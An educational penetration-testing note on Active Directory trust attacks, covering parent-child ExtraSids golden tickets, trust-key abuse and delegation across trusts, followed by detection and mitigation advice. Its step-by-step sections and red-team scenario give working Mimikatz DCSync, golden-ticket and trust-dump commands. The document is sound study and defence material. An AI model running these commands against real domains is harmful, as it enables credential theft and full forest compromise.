

# Domain Privilege Escalation via Trust Relationships

## 1. Introduction to Domain Trusts

In large organizations, a single Active Directory domain is rarely sufficient. Companies deploy multiple domains and group them into **Trees** and **Forests**. To allow users in Domain A to access file shares or resources in Domain B, Active Directory uses **Trust Relationships**. 

A trust relationship is a logical link between two domains that allows authentication traffic to flow between them. 

From an offensive perspective, trusts are the ultimate lateral movement corridors. If an attacker compromises a poorly secured child domain (e.g., `dev.corp.local`), they can abuse the trust relationship to forge Kerberos tickets and completely compromise the forest root domain (`corp.local`), granting them control over the entire organization.

Understanding trusts requires understanding two key concepts:
1. **Directionality:** 
   - *One-Way Trust:* Domain A trusts Domain B. Users in B can access A. (Users in A CANNOT access B). 
   - *Two-Way Trust:* Domain A and B trust each other. 
2. **Transitivity:** 
   - *Transitive:* If A trusts B, and B trusts C, then A automatically trusts C.
   - *Non-Transitive:* The trust stops strictly at the two domains explicitly linked.

---

## 2. Types of Trusts

- **Parent-Child Trust:** Automatically created when a new subdomain (child) is added to an existing domain (parent). Two-way and transitive by default. (e.g., `corp.local` and `emea.corp.local`).
- **Forest Trust:** Created between two separate AD forests. Can be one-way or two-way. Transitive across the respective forests.
- **External Trust:** Created between two specific domains in different forests. Non-transitive.
- **Shortcut Trust:** Created between two domains in the same forest to speed up authentication by skipping the domain hierarchy. Transitive.

---

## 3. Visual Architecture: The ExtraSids Attack



---

## 4. Exploiting Parent-Child Trusts (SID History Abuse)

The most common and devastating trust attack is escalating from a compromised child domain to the parent (forest root) domain. 

### 4.1 The Role of SID History
When a user is migrated from one domain to another, AD uses the `sIDHistory` attribute. This attribute stores the user's old Security Identifier (SID). When the user authenticates, AD includes both their current SID and their `sIDHistory` SIDs in their access token. If their old SID had access to a file share, they retain that access.

### 4.2 The "ExtraSids" Golden Ticket Attack
Because a Parent-Child trust is within the same forest, AD allows SIDs from the Parent domain to be included in the `sIDHistory` of tickets originating from the Child domain. 

An attacker who has compromised the Child Domain (has the `krbtgt` hash of the child) can forge a Golden Ticket for the child domain, but artificially inject the SID of the Parent Domain's **Enterprise Admins** group into the `sIDHistory` (ExtraSids) field.

### 4.3 Step-by-Step Execution
1. **Compromise the Child Domain:** 
   The attacker gains Domain Admin on `dev.corp.local` and extracts the child's `krbtgt` hash using DCSync.
   ```text
   mimikatz # lsadump::dcsync /domain:dev.corp.local /user:krbtgt
   ```

2. **Obtain the Target SIDs:**
   The attacker needs the SID of the Child domain, and the SID of the Enterprise Admins group in the Parent domain (which is always the Parent Domain SID + `-519`).
   ```powershell
   Get-DomainSID -Domain dev.corp.local
   Get-DomainSID -Domain corp.local
   ```
   *Assume Child SID: `S-1-5-21-1111-2222-3333`*
   *Assume Parent SID: `S-1-5-21-9999-8888-7777`* -> Enterprise Admins = `S-1-5-21-9999-8888-7777-519`

3. **Forge the Inter-Realm Golden Ticket:**
   Using Mimikatz, the attacker forges the ticket.
   ```text
   mimikatz # kerberos::golden /user:Administrator /domain:dev.corp.local /sid:S-1-5-21-1111-2222-3333 /krbtgt:[child_krbtgt_hash] /sids:S-1-5-21-9999-8888-7777-519 /ptt
   ```

4. **Execute the Attack:**
   The attacker now has a ticket in memory. They can list the C$ share of the Parent Domain Controller.
   ```cmd
   dir \\dc01.corp.local\C$
   ```
   *Because the Parent DC reads the ExtraSids field and sees the Enterprise Admin SID, it grants complete system access. The attacker has successfully compromised the forest root.*

---

## 5. Exploiting Cross-Forest Trusts

Exploiting trusts *between different forests* is harder. By default, Forest Trusts enable **SID Filtering**. 

### 5.1 SID Filtering
SID Filtering prevents the "ExtraSids" attack. When a ticket crosses a forest boundary, the receiving forest strips out any SIDs in the `sIDHistory` that do not belong to the issuing forest. Therefore, you cannot inject an Enterprise Admin SID into a cross-forest ticket.

### 5.2 The Trust Key Attack
Instead of relying on ExtraSids, attackers can extract the **Trust Key**. When a trust is established, a shared password (Trust Key) is created between the two domains.
If an attacker compromises Forest A, they can dump the Trust Key.
```text
mimikatz # lsadump::trust /patch
```
Using this key, they can forge an Inter-Realm TGT. While they cannot inject Enterprise Admin rights due to SID Filtering, they can impersonate *any* user from Forest A when accessing Forest B. If a specific user in Forest A was granted local admin rights on a SQL server in Forest B, the attacker can perfectly spoof that user and take over the SQL server.

### 5.3 Unconstrained Delegation Across Trusts
If a server in Forest B is configured with Unconstrained Delegation, and an attacker in Forest A can coax a Domain Admin from Forest B to authenticate to it (e.g., via the Printer Bug / CoerceAuth), the attacker can steal the Domain Admin's TGT, bypassing the trust boundary entirely.

---

## 6. Detection and Mitigation

### 6.1 Mitigation
- **Enable SID Filtering within the Forest:** While breaking functionality, highly secure environments enable SID filtering between child and parent domains to stop ExtraSids attacks.
- **Selective Authentication:** For Forest/External trusts, enable Selective Authentication. This forces administrators to explicitly define exactly which users from the trusted domain can authenticate to which specific servers in the trusting domain, preventing massive domain-wide enumeration and access.
- **Tiering / Red Forest Architecture:** Implement the ESAE (Enhanced Security Administrative Environment) architecture. Place all highly privileged accounts in a completely separate, heavily guarded administrative forest. The production forest trusts the administrative forest, but the administrative forest trusts *nothing*.

### 6.2 Detections
- **Event ID 4624 (Logon):** Monitor cross-domain authentications where the logon type is network (Type 3) and the account domain differs from the target domain.
- **Event ID 4769 (Kerberos Service Ticket):** Hunt for tickets requested for the `krbtgt` service of a different domain, which indicates inter-realm ticket generation.
- **Anomalous SID History:** EDRs and advanced SIEM rules monitor for authentication events where the SID History contains SIDs ending in `-519` (Enterprise Admins) originating from a child domain.

---

## Real-World Attack Scenario

During an adversary simulation, the red team completely compromised a child domain, `eu.corp.local`, which was used for European operations. The ultimate objective was to compromise the forest root domain, `corp.local`, which housed the global financial systems. The two domains shared a default, two-way transitive Parent-Child trust. 

Having achieved Domain Admin rights in the `eu` domain, the attacker performed a DCSync attack using Mimikatz on the child Domain Controller to extract the child domain's `krbtgt` NTLM hash:
```text
mimikatz # lsadump::dcsync /domain:eu.corp.local /user:krbtgt
```

Next, the attacker needed the SIDs to perform the ExtraSids (SID History) attack. Using PowerView, they retrieved the SID of the child domain and the SID of the parent domain:
```powershell
Get-DomainSID -Domain eu.corp.local    # Returned: S-1-5-21-111-222-333
Get-DomainSID -Domain corp.local       # Returned: S-1-5-21-999-888-777
```
The attacker appended `-519` to the parent SID to target the parent's `Enterprise Admins` group: `S-1-5-21-999-888-777-519`.

With the `krbtgt` hash and the SIDs in hand, the attacker used Mimikatz to forge an Inter-Realm Golden Ticket. They injected the parent's Enterprise Admin SID into the `sIDHistory` attribute of the ticket:
```text
mimikatz # kerberos::golden /user:FakeAdmin /domain:eu.corp.local /sid:S-1-5-21-111-222-333 /krbtgt:<extracted_hash> /sids:S-1-5-21-999-888-777-519 /ptt
```

The ticket was successfully injected into the attacker's session memory. To verify the escalation, the attacker attempted to list the `C$` share on the parent domain's primary Domain Controller:
```cmd
dir \\dc01.corp.local\C$
```
The command succeeded. The parent Domain Controller inspected the inter-realm ticket, saw the `Enterprise Admins` SID in the SID History field, and granted full administrative access, allowing the attacker to completely take over the forest root without ever cracking a password in the parent domain.

## 7. Chaining Opportunities

- **[[25 - Golden and Silver Tickets]]**: The ExtraSids attack is fundamentally a Golden Ticket attack modified to include the `sIDHistory` attribute.
- **[[23 - BloodHound — Attack Path Analysis]]**: BloodHound will visually map all trust relationships and identify exactly which foreign groups have administrative rights over local resources.
- **[[20 - Mimikatz — Credential Dumping]]**: Mimikatz is required to extract the `krbtgt` hash of the child domain and to forge the inter-realm TGT with the injected SIDs.

## 8. Related Notes
- [[23 - BloodHound — Attack Path Analysis]]
- [[25 - Golden and Silver Tickets]]
- [[20 - Mimikatz — Credential Dumping]]
- [[13 - Active Directory Enumeration]]
